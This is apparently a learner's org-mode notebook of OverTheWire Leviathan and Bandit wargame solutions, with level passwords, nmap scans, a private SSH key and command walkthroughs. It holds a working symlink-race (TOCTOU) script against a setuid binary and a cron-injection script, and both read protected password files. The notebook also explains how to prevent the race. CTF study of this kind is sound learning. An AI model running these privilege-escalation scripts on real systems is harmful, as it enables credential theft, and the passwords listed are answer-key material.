[[https://chatgpt.com/share/68ed9138-3f28-8006-ac1e-835908865878][ChatGPT]]

***** More robust TOCTOU script

#+begin_example
#!/bin/bash
# deterministic TOCTOU flipper for CTF practice only

GOOD="/home/leviathan2/.profile"   # a file RUID can read (replace with real file)
SECRET="/etc/leviathan_pass/leviathan3" # the secret you want printed
LINK="/tmp/chaves-L"
BINARY="/home/leviathan2/printfile"     # the setuid binary that does: check ACCESS then exec cat LINK

# make sure the link starts pointing to the readable file
ln -sf "$GOOD" "$LINK"

# start the target program in the background and capture its PID
"$BINARY" "$LINK" &
TARGET_PID=$!

# while the target is still alive, keep flipping the symlink
while kill -0 "$TARGET_PID" 2>/dev/null; do
  ln -sf "$GOOD" "$LINK"
  ln -sf "$SECRET" "$LINK"
done

# wait for the target to finish and print exit status
wait "$TARGET_PID"
echo "target exited with $?"
#+end_example


#+begin_example
leviathan2@leviathan:~$ /tmp/chaves.sh
f0n8h2iWLP
target exited with 0
#+end_example

***** Correct program design (how this should be prevented)

A secure program that needs to both check a user’s rights and open/use a file under another UID must avoid TOCTOU by not using separate pathname checks. Secure patterns include:

Open then verify using the opened descriptor

fd = open(path, O_RDONLY|O_NOFOLLOW);

fstat(fd, &st); Verify ownership/permissions on fd (not on path). Use fchmod/fchown/check st fields as needed. Because operations act on the already-opened descriptor, the target cannot be swapped by a symlink after open.

Use file-descriptor-based operations instead of re-resolving the pathname later (fexecve / run with fd or read from fd directly). That prevents lookup at time-of-use.

Avoid access() for security checks, because it checks current real/effective permissions against the filename and is vulnerable to TOCTOU. If the program needs to verify permissions, open the file (with the minimum privileges) and operate on the returned descriptor.

Drop privileges safely: if the program must switch to EUID to read something privileged, handle UID transitions carefully:

Temporarily set effective UID to the one that should do the check, open/lock the file descriptor, then set EUID to the other identity and use the already-open FD.

Use O_NOFOLLOW to prevent symlink abuse where appropriate.

Use kernel-level protections if available: openat2() with RESOLVE_NO_SYMLINKS (newer kernels) or seccomp / file capabilities to narrow attack surface.

In short: do the check and the use on the same resolved kernel object (the same FD), and do not re-resolve the pathname.

*** 3

f0n8h2iWLP

*** Seinfeld Checkmark

[[file:images/2025-10-13_seinfeld.jpeg]]

** Bandit

*** 0
ZjLjTmM6FvvyRnrb2rfNWOZOTa6ip5If

*** 1
263JGJPfgU6LtdEvgfWU1XP5yac29mFx

*** 2
MNk8KNH3Usiio41PRUEoDFPqfxLPlSmx

*** 3
2WmrDFRmJIq3IPxneAaMGhap0pFhF3NJ

*** 4
4oQYVPkxZOOEOO5pTW81FB8j8lxXGUQw

*** 5
Preciso achar um arquivo:
- human-readable
- 1033 bytes in size
- not executable


Será que o comando ~find~ dá isso?

#+begin_src bash :noweb no
find . -type f -size 1033c -exec cat {} +
#+end_src

HWasnPhtq9AVKe0dmk45nxy20cvUa6EG

*** 6

file that:

    - owned by user bandit7
    - owned by group bandit6
    - 33 bytes in size

#+begin_src shell :noweb no
find / 2>/dev/null -user bandit7 -group bandit6 -size 33c -exec cat {} \;
#+end_src

morbNTDkSW6jIlUc0ymOdMaLnOlFVAaj

*** 7

dfwvzFQi4mU0wfNbFOe9RoWskMLg7eEc

*** 8
4CKMh1JI91bUIZZPXDqGanal4xvAg0JM

*** 9

~strings data.txt~

FGUW5ilLVJrxX9kMYMmlN4MgbpfMiqey

*** 10

Nesse tem uma string codificada em base64.

#+begin_src shell :noweb no
base64 -d data.txt
#+end_src

dtR173fZKb0RRsDFSGsg2RWnpNVj3qRr

*** 11

Nesse rotacionaram as letras em 13 posições.

Essa é uma cifra conhecida já, a tal da ROT13.
26 letras no falnalabeto: f == f^{-1}.
ROT13 é sua própria inversa.

#+begin_src shell :noweb no
tr 'A-Za-z' 'N-ZA-Mn-za-m' < data.txt
#+end_src

7x16WNeHIi5YkIhWsfFIqoognUTyj9Q4

*** 12

Agora brotou um hexdump em plain text.
They tell it's a file that was compressed multiple times.

I need to get the file that generated that hexdump.
This can be done with:

#+begin_src shell :noweb no
xxd -r data.txt
#+end_src

Aí foi uma cascata de uncompressing in several formats (bz2, gz, tar).

FO5dwFsc0cbaIiH0h8J2eUks2vdTDwAn

*** 13

#+begin_quote
The password for the next level is stored in /etc/bandit_pass/bandit14 and can only be read by user bandit14.

For this level, you don’t get the next password, but you get a private SSH key that can be used to log into the next level.

Note: localhost is a hostname that refers to the machine you are working on
#+end_quote

1. I copied the contents of the bandit14's private key that was in the home directory.
2. Then I renamed it to ~id_rsa~.
3. Then

#+begin_src shell :noweb no
ssh bandit.labs.overthewire.org -p 2220 -i ~/.ssh/id_rsa_overthewire.org-bandit14-private-key -l bandit14
#+end_src

*** 14

#+begin_quote
The password for the next level can be retrieved by submitting the password of the current level to port 30000 on localhost.
#+end_quote

I got the pass from the folder mentioned in the previous Bandit:
MU4VWeTyJk8ROof1qqmcBPaLh7lDCPvS

I want to send that string (those bytes) to localhost on port 30000.

After readin man telnet.

#+begin_src shell :noweb no
telnet localhost 30000
#+end_src

This opens a connection, and I can input text.
I typed the password, ENTER, and voilà:

8xCjnmgoKbGLhHFAZlGE5Tmu4M2tKJQo

*** 15

#+begin_quote
The password for the next level can be retrieved by submitting the password of the current level to port 30001 on localhost using SSL/TLS encryption.
#+end_quote

I connected to the server/port using ~openssl~.
It's the same procedure as the telnet, but Secure®.

#+begin_src shell :noweb no
openssl s_client -crlf -connect localhost:30001
#+end_src

kSkvUpMQ7lBYyCM4GBPvCvT1BfWRy0Dx

*** 16

#+begin_quote
The credentials for the next level can be retrieved by submitting the password of the current level to a port on localhost in the range 31000 to 32000.
First find out which of these ports have a server listening on them.
Then find out which of those speak SSL/TLS and which don’t.
There is only 1 server that will give the next credentials, the others will simply send back to you whatever you send to it.
#+end_quote

#+begin_example
bandit16@bandit:~$ nmap -p 31000-32000 localhost
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 00:02 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00010s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT      STATE SERVICE
31046/tcp open  unknown
31518/tcp open  unknown
31691/tcp open  unknown
31790/tcp open  unknown
31960/tcp open  unknown
#+end_example

#+begin_src shell :noweb no
for p in 31046 31518 31691 31790 31960; do openssl s_client -crlf -connect localhost:$p; done;
#+end_src

Testing connection:

| 31046 | Secure  Renegotiation  IS  NOT  supported |
| 31518 |                                           |
| 31691 |                                           |
| 31790 |                                           |
| 31960 |                                           |

I was having a problem:

#+begin_example
    Extended master secret: no
    Max Early Data: 0
---
read R BLOCK
kSkvUpMQ7lBYyCM4GBPvCvT1BfWRy0Dx    <---- sent the current passwor
KEYUPDATE                           <---- received this message
#+end_example

This happened because the sent data started with a *k*, that has a meaning in the /interactive/ session.

[[https://stackoverflow.com/a/58574851][This answer on Stackoverflow]] suggests to avoid using the interactive session with ~ign_eof~:

#+begin_src shell :noweb no
for p in 31046 31518 31691 31790 31960; do openssl s_client -ign_eof -crlf -connect localhost:$p; done;
#+end_src

The correct one was:

#+begin_src shell :noweb no
openssl s_client -ign_eof -crlf -connect localhost:31790
#+end_src

Got a private key :)

#+begin_src id_rsa :noweb no
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAvmOkuifmMg6HL2YPIOjon6iWfbp7c3jx34YkYWqUH57SUdyJ
imZzeyGC0gtZPGujUSxiJSWI/oTqexh+cAMTSMlOJf7+BrJObArnxd9Y7YT2bRPQ
Ja6Lzb558YW3FZl87ORiO+rW4LCDCNd2lUvLE/GL2GWyuKN0K5iCd5TbtJzEkQTu
DSt2mcNn4rhAL+JFr56o4T6z8WWAW18BR6yGrMq7Q/kALHYW3OekePQAzL0VUYbW
JGTi65CxbCnzc/w4+mqQyvmzpWtMAzJTzAzQxNbkR2MBGySxDLrjg0LWN6sK7wNX
x0YVztz/zbIkPjfkU1jHS+9EbVNj+D1XFOJuaQIDAQABAoIBABagpxpM1aoLWfvD
KHcj10nqcoBc4oE11aFYQwik7xfW+24pRNuDE6SFthOar69jp5RlLwD1NhPx3iBl
J9nOM8OJ0VToum43UOS8YxF8WwhXriYGnc1sskbwpXOUDc9uX4+UESzH22P29ovd
d8WErY0gPxun8pbJLmxkAtWNhpMvfe0050vk9TL5wqbu9AlbssgTcCXkMQnPw9nC
YNN6DDP2lbcBrvgT9YCNL6C+ZKufD52yOQ9qOkwFTEQpjtF4uNtJom+asvlpmS8A
vLY9r60wYSvmZhNqBUrj7lyCtXMIu1kkd4w7F77k+DjHoAXyxcUp1DGL51sOmama
+TOWWgECgYEA8JtPxP0GRJ+IQkX262jM3dEIkza8ky5moIwUqYdsx0NxHgRRhORT
8c8hAuRBb2G82so8vUHk/fur85OEfc9TncnCY2crpoqsghifKLxrLgtT+qDpfZnx
SatLdt8GfQ85yA7hnWWJ2MxF3NaeSDm75Lsm+tBbAiyc9P2jGRNtMSkCgYEAypHd
HCctNi/FwjulhttFx/rHYKhLidZDFYeiE/v45bN4yFm8x7R/b0iE7KaszX+Exdvt
SghaTdcG0Knyw1bpJVyusavPzpaJMjdJ6tcFhVAbAjm7enCIvGCSx+X3l5SiWg0A
R57hJglezIiVjv3aGwHwvlZvtszK6zV6oXFAu0ECgYAbjo46T4hyP5tJi93V5HDi
Ttiek7xRVxUl+iU7rWkGAXFpMLFteQEsRr7PJ/lemmEY5eTDAFMLy9FL2m9oQWCg
R8VdwSk8r9FGLS+9aKcV5PI/WEKlwgXinB3OhYimtiG2Cg5JCqIZFHxD6MjEGOiu
L8ktHMPvodBwNsSBULpG0QKBgBAplTfC1HOnWiMGOU3KPwYWt0O6CdTkmJOmL8Ni
blh9elyZ9FsGxsgtRBXRsqXuz7wtsQAgLHxbdLq/ZJQ7YfzOKU4ZxEnabvXnvWkU
YOdjHdSOoKvDQNWu6ucyLRAWFuISeXw9a/9p7ftpxm0TSgyvmfLF2MIAEwyzRqaM
77pBAoGAMmjmIJdjp+Ez8duyn3ieo36yrttF5NSsJLAbxFpdlc1gvtGCWW+9Cq0b
dxviW8+TFVEBl1O4f7HVm6EpTscdDxU+bCXWkfjuRb7Dy9GOtt9JPsX8MBTakzh3
vBgsyi/sN3RqRBcGU40fOoZyfAMT8s1m/uYv52O6IgeuZ/ujbjY=
-----END RSA PRIVATE KEY-----
#+end_src

#+begin_src shell :noweb no
chmod 600 ~/.ssh/id_rsa_overthewire.org-bandit17
#+end_src

#+RESULTS:

*** 17

x2gLTTjFwMOhQ8oWNbMN362QKxfRqGlO

Got the 'Byebye'.

Checking out the next Bandit, as instructed.
*** 18

I was being automatically disconnected from the server because there was a directive in ~.bashrc~ for that:

#+begin_quote
someone has modified .bashrc to log you out when you log in with SSH.
#+end_quote

Then I found out that I can run a command via SSH, and that it may run before Bash did his stuff:

#+begin_quote
When you connect via SSH and specify a command to execute directly (e.g., ssh user@host "ls -l"), a non-interactive shell is often used, and your ~/.bashrc or ~/.profile might not be fully sourced, depending on the shell and the command.
#+end_quote

I did this (intructions told about ~readme~):

#+begin_src shell :noweb no
ssh bandit.labs.overthewire.org -p 2220 -l bandit18 "cat readme"
#+end_src

cGWpMaKXVwDUNgPAVJbWYuGHVn9zl3j8

**** 19

A princípio fiquei confuso.
Achei que o programa iria /modificar/ o proprietário do arquivo com a senha.

Quando rodei o comando para saber o que fazer (conforme instruído), recebi a seguinte saída:

#+begin_src shell :noweb no
bandit19@bandit:~$ ./bandit20-do
Run a command as another user.
  Example: ./bandit20-do id
#+end_src

Eu não li a primeira linha da saída e achei que tinha que descobrir o meu ~id~ numérico do user ~bandit19~, pra daí usar o comando para setar esse usuário como proprietário do arquivo com a senha.

Depois eu acabei rodando o comando de novo e li a primeira linha.
Daí rodei:

#+begin_src shell :noweb no
bandit19@bandit:/etc/bandit_pass$ ~/bandit20-do cat bandit20
#+end_src

e obtive a senha:

0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO

O executável ~bandit20-do~ foi setado com o user bandit20 e o meu grupo.

#+begin_src shell :noweb no
bandit19@bandit:~$ stat bandit20-do
  File: bandit20-do
  Size: 14884           Blocks: 32         IO Block: 4096   regular file
Device: 259,1   Inode: 577828      Links: 1
Access: (4750/-rwsr-x---)  Uid: (11020/bandit20)   Gid: (11019/bandit19)
                           ^^^         ^^^^^^^^    ^^^         ^^^^^^^^
Access: 2025-10-10 17:14:19.958793247 +0000
Modify: 2025-08-15 13:16:01.732011756 +0000
Change: 2025-08-15 13:16:01.734011763 +0000
 Birth: 2025-08-15 13:16:01.731011751 +0000
#+end_src

Como eu faço parte do grupo do arquivo, eu posso executá-lo e como ele é do 20, eu posso ler o arquivo da próxima senha, que é dele.
*** 20

0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO

#+begin_quote
There is a setuid binary in the homedirectory that does the following:
#+end_quote

The "setuid binary" is ~suconnect~:

#+begin_example
bandit20@bandit:~$ ls -lah
total 36K
drwxr-xr-x   2 root     root     4.0K Aug 15 13:16 .
drwxr-xr-x 150 root     root     4.0K Aug 15 13:18 ..
-rw-r--r--   1 root     root      220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root     root     3.8K Aug 15 13:09 .bashrc
-rw-r--r--   1 root     root      807 Mar 31  2024 .profile
-rwsr-x---   1 bandit21 bandit20  16K Aug 15 13:16 suconnect

bandit20@bandit:~$ stat suconnect
  File: suconnect
  Size: 15608           Blocks: 32         IO Block: 4096   regular file
Device: 259,1   Inode: 577830      Links: 1
Access: (4750/-rwsr-x---)  Uid: (11021/bandit21)   Gid: (11020/bandit20)
Access: 2025-10-10 17:04:06.585772107 +0000
Modify: 2025-08-15 13:16:02.922063839 +0000
Change: 2025-08-15 13:16:02.923016449 +0000
 Birth: 2025-08-15 13:16:02.921016442 +0000
#+end_example

#+begin_quote
- it makes a connection to localhost on the port you specify as a commandline argument.
- It then reads a line of text from the connection and compares it to the password in the previous level (bandit20).
- If the password is correct, it will transmit the password for the next level (bandit21).
#+end_quote

Now, I am not sure if it
1. /connects/ to an existing connection.
2. /creates/ a new connection, or if it just

Let us try first to connect to an existing connection.
We get a list of the ports---the "simple" way:

#+begin_example
bandit20@bandit:~$ nmap localhost
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 16:21 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
1111/tcp  open  lmsocialserver
1840/tcp  open  netopia-vo2
4321/tcp  open  rwhois
8000/tcp  open  http-alt
30000/tcp open  ndmps
50001/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
#+end_example

For the bandit19 user is the same:

#+begin_example
bandit19@bandit:~$ nmap localhost
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 16:18 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
1111/tcp  open  lmsocialserver
1840/tcp  open  netopia-vo2
4321/tcp  open  rwhois
8000/tcp  open  http-alt
30000/tcp open  ndmps
50001/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
#+end_example

I tried connecting both ~suconnect~ and ~telnet~ to port 1111 (has "social" in the name); suconnect with '&'; and then send the password through telnet.
I expect to receive an answer from suconnect, because it is in the same "chat".

#+begin_src shell :noweb no
telnet 1111 &
telnet 1111
Hello, there!
#+end_src

I didn't get the message to be echoed on the screen, as I expected.
It says something like "job /stopped/"; I wonder if I need to keep it running in the background.

Let's try a different port: 30000.

#+begin_src shell :noweb no
bandit20@bandit:~$ ./suconnect 30000 &
[1] 69995
bandit20@bandit:~$ telnet localhost 30000
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
Wrong! Please enter the correct current password.
Connection closed by foreign host.
#+end_src

I believe this is the same guy from a previous Bandit.
Let's test it.
That Bandit is 14.
Let's re-run it:

#+begin_src shell :noweb no
bandit20@bandit:~$ telnet localhost 30000
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
MU4VWeTyJk8ROof1qqmcBPaLh7lDCPvS
Correct!
8xCjnmgoKbGLhHFAZlGE5Tmu4M2tKJQo

Connection closed by foreign host.
#+end_src

Yep!
It is the same, and it works for the user bandit20 too.

Apparently, two processes cannot listen to the same port (usually).
I'll try running suconnect as a daemon, and telnet as a Client.
I need a port.

These are all the ports available:

|          | bandit20@bandit:~$ nmap -p 0-65535 localhost                       |
|          | Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 17:37 UTC |
|          | Nmap scan report for localhost (127.0.0.1)                         |
|          | Host is up (0.000097s latency).                                    |
|          | Not shown: 65506 closed tcp ports (conn-refused)                   |
| WORKS?   | PORT      STATE SERVICE                                            |
|          | 22/tcp    open  ssh                                                |
|          | 1111/tcp  open  lmsocialserver                                     |
|          | 1840/tcp  open  netopia-vo2                                        |
|          | 2220/tcp  open  netiq                                              |
|          | 2221/tcp  open  rockwell-csp1                                      |
|          | 2223/tcp  open  rockwell-csp2                                      |
|          | 2224/tcp  open  efi-mg                                             |
|          | 2225/tcp  open  rcip-itu                                           |
|          | 2226/tcp  open  di-drm                                             |
|          | 2227/tcp  open  di-msg                                             |
|          | 2228/tcp  open  ehome-ms                                           |
|          | 2230/tcp  open  queueadm                                           |
|          | 2231/tcp  open  wimaxasncp                                         |
|          | 2232/tcp  open  ivs-video                                          |
|          | 4091/tcp  open  ewinstaller                                        |
|          | 4258/tcp  open  vrml-multi-use                                     |
|          | 4321/tcp  open  rwhois                                             |
|          | 5842/tcp  open  reversion                                          |
|          | 8000/tcp  open  http-alt                                           |
| bandit14 | 30000/tcp open  ndmps                                              |
| n        | 30001/tcp open  pago-services1                                     |
| bandit25 | 30002/tcp open  pago-services2                                     |
|          | 31046/tcp open  unknown                                            |
|          | 31518/tcp open  unknown                                            |
|          | 31691/tcp open  unknown                                            |
|          | 31790/tcp open  unknown                                            |
|          | 31960/tcp open  unknown                                            |
|          | 50001/tcp open  unknown                                            |
|          | 51790/tcp open  unknown                                            |
|          | 60917/tcp open  unknown                                            |

Given that bandit15 uses port 30000, and bandit25 uses port 30002, I bet the port I need for this Bandit is 30001.

I tried first running succonect on the background and sending the password via nc.
But it closes the connection.

#+begin_example
bandit20@bandit:~$ ./suconnect 30001 &
[1] 290352

bandit20@bandit:~$ nc localhost 30001
0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
bandit20@bandit:~$                       <--- It closes the connection
#+end_example

I tried using ~screen~ to run the daemon, and another session to connect to it.

I created a dedicated session for ~suconnect~:

#+begin_src shell :noweb no
screen -S suconnect
#+end_src

Then I started the ~suconnect~ daemon.

#+begin_src shell :noweb no
./suconnect 30001
#+end_src

Then I detached the screen session with ~C-a d~.

Then I connected and sent the password using ~nc~.

#+begin_src shell :noweb no
nc localhost 30001
#+end_src

I was disconnected, as expected.

Then I reattached to the ~screen~ running ~suconnect~ with

#+begin_src shell :noweb no
screen -x suconnect
#+end_src

I expected to see the next password as the output there, but there was no output.

Future me: up until now, I had tried:
- ~suconnect~ as the daemon
  - using already opened ports

| Daemon    | Open new port | Use existing port |
|-----------+---------------+-------------------|
| suconnect |               | Doesn't work      |
| nc        |               |                   |

I tried connecting with ~suconnect~ to every port in the interval 0--65535.
It connected to some, but I couldn't tell if it was connecting to an open port or opening a new port.

Then I came across [[https://stackoverflow.com/a/79726454][this answer on Stackoverflow]] that teaches hot to solve it.
According to this answer, ~nc~ will be the daemon, and ~suconnect~ will be the client.
The answer instructs to use the parameters ~-lnvp~ for ~nc~.

I first tried to use port 30001.

#+begin_example
bandit20@bandit:~$ nc -lnvp 30001
nc: Address already in use
#+end_example

Then I tried a port not reported by ~nmap~ above.

#+begin_example
bandit20@bandit:~$ nc -lnvp 30003
Listening on 0.0.0.0 30003
#+end_example

Then I dettached and attached to ~suconnect~'s ~screen~.
I started ~suconnect~ there using the same port.

#+begin_src shell :noweb no
./suconnect 30003
#+end_src

No output.

Back on ~nc~'s screen, I got the message of a received connection, probably from ~suconnect~.

#+begin_example
Connection received on 127.0.0.1 54356
#+end_example

I then sent the current password, and got the next one as a reply.

#+begin_example
0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
EeoULMCra2q0dSkYj561DX7s1CpBuOBt
#+end_example

Back on ~suconnect~'s ~screen~:

#+begin_example
Read: 0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
Password matches, sending next password
#+end_example

After reading this from ~man lc~:

#+begin_example
-l      Listen for an incoming connection rather than initiating a con‐
        nection to a remote host.  The destination and port to listen on
        can be specified either as non-optional arguments, or with op‐
        tions -s and -p respectively.  Cannot be used together with -x or
        -z.  Additionally, any timeouts specified with the -w option are
        ignored.
#+end_example

I tried with just ~nc -l~, and it worked the same.

I also tried still using ~nc~ as the daemon, but without any parameter.

#+begin_example
bandit20@bandit:~$ nc 30003
nc: missing port number
#+end_example

Then with the host.

#+begin_example
bandit20@bandit:~$ nc localhost 30003
bandit20@bandit:~$
#+end_example

Apparently it did not create a connection.
I still tried starting ~suconnect~.

#+begin_example
bandit20@bandit:~$ ./suconnect 30003
Could not connect
#+end_example

This shows that it needs the ~-l~ parameter.

I looked at the manpage for the meaning of the ~nvp~ parameters.

#+begin_example
-n      Do not perform domain name resolution.  If a name cannot be re‐
        solved without DNS, an error will be reported.
#+end_example

I don't see why this would affect the command, as no host was used.

#+begin_example
-v      Produce more verbose output.
#+end_example

Non-essential.

#+begin_example
-p source_port
        Specify the source port nc should use, subject to privilege re‐
        strictions and availability.
#+end_example

Why does it work witout specifying 30003 as a /port/ with ~p~?
The only mandatory parameter so far is ~l~, which needs a destination and port.

From the manpage:

#+begin_example
In general, a destination must be specified, unless the -l option is given (in which case the local host is used).
#+end_example

Now, the only mandatory parameter is the port, so there is no reason to make ~-p~ mandatory.

EeoULMCra2q0dSkYj561DX7s1CpBuOBt
*** 21

#+begin_quote
A program is running automatically at regular intervals from cron, the time-based job scheduler.
Look in /etc/cron.d/ for the configuration and see what command is being executed.
#+end_quote

The files in ~/etc/cron.d/~ are:

#+begin_example
bandit21@bandit:/etc/cron.d$ ls -lah
total 60K
drwxr-xr-x   2 root root 4.0K Aug 15 13:19 .
drwxr-xr-x 128 root root  12K Aug 29 21:51 ..
-r--r-----   1 root root   47 Aug 15 13:16 behemoth4_cleanup
-rw-r--r--   1 root root  123 Aug 15 13:09 clean_tmp
-rw-r--r--   1 root root  120 Aug 15 13:16 cronjob_bandit22
-rw-r--r--   1 root root  122 Aug 15 13:16 cronjob_bandit23
-rw-r--r--   1 root root  120 Aug 15 13:16 cronjob_bandit24
-rw-r--r--   1 root root  201 Apr  8  2024 e2scrub_all
-r--r-----   1 root root   48 Aug 15 13:17 leviathan5_cleanup
-rw-------   1 root root  138 Aug 15 13:17 manpage3_resetpw_job
-rwx------   1 root root   52 Aug 15 13:19 otw-tmp-dir
-rw-r--r--   1 root root  102 Mar 31  2024 .placeholder
-rw-r--r--   1 root root  396 Jan  9  2024 sysstat
#+end_example

To get the file contents I used ~cat~:

#+begin_example
bandit21@bandit:/etc/cron.d$ find . -exec echo {} \; -exec cat {} \; -exec echo "" \;
#+end_example

This guy is the most suspicious one.

#+begin_example
./sysstat
# The first element of the path is a directory where the debian-sa1
# script is located
PATH=/usr/lib/sysstat:/usr/sbin:/usr/sbin:/usr/bin:/sbin:/bin

# Activity reports every 10 minutes everyday
5-55/10 * * * * root command -v debian-sa1 > /dev/null && debian-sa1 1 1

# Additional run at 23:59 to rotate the statistics file
59 23 * * * root command -v debian-sa1 > /dev/null && debian-sa1 60 2
#+end_example

#+begin_quote
# The first element of the path is a directory where the debian-sa1
# script is located
#+end_quote

The contents of "the first element of the path", ~/usr/lib/sysstat/~, are:

#+begin_example
bandit21@bandit:/usr/lib/sysstat$ alias ls='ls -lah'
bandit21@bandit:/usr/lib/sysstat$ ls
total 104K
drwxr-xr-x  2 root root 4.0K Jul 31 10:05 .
drwxr-xr-x 86 root root 4.0K Aug 15 13:10 ..
-rwxr-xr-x  1 root root  446 Jan  9  2024 debian-sa1
-rwxr-xr-x  1 root root 1.8K Jan  9  2024 sa1
-rwxr-xr-x  1 root root 1.6K Jan  9  2024 sa2
-rwxr-xr-x  1 root root  82K Jan  9  2024 sadc
#+end_example

It didn't take anywhere interesting.

After some fiddling around:

#+begin_example
bandit21@bandit:~$ cat /cat /usr/bin/cronjob_bandit22.sh
cat: /cat: No such file or directory
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
#+end_example

The passwords are in those ~/etc/bandit_pass/banditXX~ files.
This cron job is copying the password I need, ~bandit22~'s, to a temp file.
To see it, I did:

#+begin_example
bandit21@bandit:~$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q
#+end_example

and voilà:

tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q
*** 22

#+begin_quote
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.
#+end_quote

The contents of ~/etc/cron.d/~ should be the same.
I'll start by investigating ~bandit22~'s script.
This is the job for the bandit:

#+begin_example
bandit22@bandit:/etc/cron.d$ cat cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
​* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
#+end_example

and this is the contents of that script:

#+begin_example
bandit22@bandit:/etc/cron.d$ cat  /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
#+end_example

It uses the username ~bandit24~ (that would be gotten from ~whoami~) to create a target filename in a somewhat sophisticated process involving ~mdsum~.

I simulate the results of that command to get the script's real target:

#+begin_example
bandit22@bandit:/etc/cron.d$ myname=bandit23; mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
bandit22@bandit:/etc/cron.d$ echo $mytarget
8ca319486bfbbc3663ea0fbe81326349
#+end_example

Then I use that to ~cat~ the password from that target file:

#+begin_example
bandit22@bandit:/etc/cron.d$ cat /tmp/$mytarget
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
#+end_example

Password obtained.

0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
*** 23

#+begin_example
A program is running automatically at regular intervals from cron, the time-based job scheduler.
Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script.
This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

Commands you may need to solve this level

chmod, cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#+end_example

I go straight to ~bandit24~'s script:

#+begin_example
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
----------------------------------------------------------------------
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
#+end_example

I analyze it piece by piece:

#+begin_example
myname=$(whoami)
#+end_example

Sets ~myname~ to ~bandit24~.

#+begin_example
cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        <<process each file>>
    fi
done
#+end_example

It processes each file in ~/var/spool/bandit24/foo~.
I tried reading the contents of that directory, but got ~Permission denied.~

The processing of each file occurs as follows:

~<<process each file>> +≡~

#+begin_src x :noweb-ref process each file :noweb no
echo "Handling $i"
owner="$(stat --format "%U" ./$i)"
if [ "${owner}" = "bandit23" ]; then
    timeout -s 9 60 ./$i
fi
rm -f ./$i
#+end_src

It runs /my/ scripts inside ~/var/spool/bandit24/foo~.
I will try to inject a script there that somehow gives me ~bandit24~'s password.

#+begin_src shell :noweb no
#!/bin/bash
MY_PASS_FILE=/etc/bandit_pass/bandit24
TARGET=zoiaum

cat ${MY_PASS_FILE} > ${TARGET}
cp ${TARGET} /tmp
#+end_src

I created a file ~/tmp/zoinho.sh~, ~chmod +x~ it, and copied it to ~/var/spool/bandit24/foo~.
Then after typing this, I went to check if I got the password.

#+begin_example
bandit23@bandit:/tmp$ cat zoiaum
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
#+end_example

That file was created by ~bandit24~, and I was curious /why/ I have permission to /read/ it.
I ran a ~stat~ on it:

#+begin_example
bandit23@bandit:/tmp$ stat zoiaum
  File: zoiaum
  Size: 33              Blocks: 8          IO Block: 4096   regular file
Device: 259,1   Inode: 87017       Links: 1
Access: (0664/-rw-rw-r--)  Uid: (11024/bandit24)   Gid: (11024/bandit24)
Access: 2025-10-11 21:55:30.532352401 +0000
Modify: 2025-10-11 21:55:01.567169570 +0000
Change: 2025-10-11 21:55:01.567169570 +0000
 Birth: 2025-10-11 21:55:01.565351402 +0000
#+end_example

I can see that, the file was created with read permission for everybody, and that is why I am allowed to read it.

gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
*** 24

#+begin_quote
